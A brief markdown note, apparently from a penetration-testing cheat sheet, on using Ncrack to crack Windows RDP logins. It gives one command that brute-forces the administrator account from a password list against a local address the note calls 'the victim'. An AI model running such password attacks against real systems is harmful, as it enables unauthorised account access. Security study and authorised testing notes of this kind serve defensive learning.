 # Ncrack

* Known for its cracking in windows RDP protocol reliably and quickly.
* no multi threading in ncrack.

`ncrack -v -f --user administrator -P passwords.txt rdp://192.168.1.1,CL=1`

* `192.168.1.1` is the victim IP address





